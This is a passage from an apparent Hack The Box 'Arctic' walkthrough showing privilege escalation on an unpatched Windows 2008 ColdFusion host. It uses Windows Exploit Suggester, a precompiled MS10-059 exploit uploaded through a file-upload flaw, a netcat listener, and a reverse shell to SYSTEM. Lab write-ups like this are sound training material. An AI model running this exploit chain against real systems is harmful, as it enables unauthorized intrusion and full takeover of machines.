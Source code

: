 It’s running Microsoft Windows 2008 and has not had any updates!

Copy the output of the systeminfo command and save it in a file. We’ll use Windows Exploit Suggester to identify any missing patches that could potentially allow us to escalate privileges.

First update the database.

```text
./windows-exploit-suggester.py --update
```

Then run the exploit suggester.

```text
./windows-exploit-suggester.py --database 2019-10-12-mssb.xls --systeminfo /root/Desktop/htb/arctic/systeminfo.txt
```

![](https://miro.medium.com/max/949/1*jtJeltBsPcvK8wf1ptl8KQ.png)

We have 3 non-Metasploit exploits. I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work! I found an already compiled executable for it [here](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).

**Disclaimer**: You really should not use files that you don’t compile yourself, especially if they open up a reverse shell to your machine. Although I’m using this precompiled exploit, I don’t vouch for it.

I’ll transfer the file using arrexal’s exploit by simply changing the req parameter from

```text
...CurrentFolder=/exploit.jsp
```

to

```text
...CurrentFolder=/exploit.exe
```

Run the exploit in the same way and it uploads the exploit to the following directory on the target machine.

```text
cd C:\ColdFusion8\wwwroot\userfiles\file
```

![](https://miro.medium.com/max/581/1*qPCUGbEgK8aqA21u5erKCw.png)

Start up another listener on the attack machine.

```text
nc -nlvp 6666
```

Run the exploit.

```text
exploit.exe 10.10.14.6 6666
```

We have system!
